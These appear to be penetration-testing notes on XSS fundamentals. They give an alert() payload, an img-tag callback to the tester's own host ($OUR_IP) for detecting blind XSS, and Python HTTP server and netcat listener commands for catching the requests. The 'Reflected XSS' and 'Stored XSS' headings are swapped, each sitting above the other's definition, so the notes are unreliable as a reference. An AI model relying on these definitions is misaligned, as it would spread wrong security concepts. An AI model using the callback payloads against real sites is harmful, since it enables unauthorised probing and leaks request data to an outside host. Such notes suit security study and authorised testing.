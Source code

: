 # Fundamentals

### Reflected XSS

In a persistent XSS attack, the malicious script is stored on the target server (e.g., in a database, message forum, visitor log, or comment field) and is executed in the browser of any user who views the affected page.

### Stored XSS

Reflected XSS attacks occur when an attacker sends a malicious script as part of a request (e.g., in a URL or form submission) that is immediately echoed by the web server in the response and executed in the victim's browser.

```js
<script>alert(123)</script>
```

### DOM Based XSS

DOM based XSS attacks involve modifying the DOM environment in the victim's browser, often without any interaction with the server.

### Testing for outbound connections

```js
<img src="http://$OUR_IP/$PARAM"></img>
```

Where `$PARAM` is replaced with an identifier for whatever input we are currently fuzzing in order to help identify which field turned out to be vulnerable in our request.

**Note:** We can also capture our request in burp to fuzz the `User-Agent` and `Referer` headers before sending it off.

Before sending we also need to setup a Python HTTP server

```powershell
python3 -m http.server 80
```

This will allow us to capture multiple requests in the case multiple parameters are vulnerable and we need to receive multiple requests.

Once we have an individual request we want to enumerate, we can setup a netcat listener to view the headers associated with it.

```powershell
nc -lvnp 80
```

If dealing with stored XSS, if no request is made but an error image is still generated, we can still attempt to proceed using filter bypass techniques.
